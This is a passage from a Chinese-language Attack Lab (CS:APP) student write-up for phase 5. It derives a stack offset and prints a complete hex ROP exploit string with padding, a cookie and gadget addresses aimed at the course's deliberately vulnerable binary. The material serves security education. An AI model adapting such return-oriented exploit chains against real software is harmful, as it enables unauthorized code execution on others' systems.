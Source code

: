 从中可得：字节数据起始地址相对执行 `movq %rsp, %rax` 这行指令时 `%rsp` 的地址偏移量为 `0x20`

综上可得出一个合法的解如下：

```shell script
69 64 65 61 6c 69 73 6d
2d 78 78 6d 00 00 00 00
00 00 00 00 6d 78 78 2d
6d 73 69 6c 61 65 64 69
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

![phase5](attacklab/phase5.png)

将其存入 `phase5.txt` 并验证正确性：
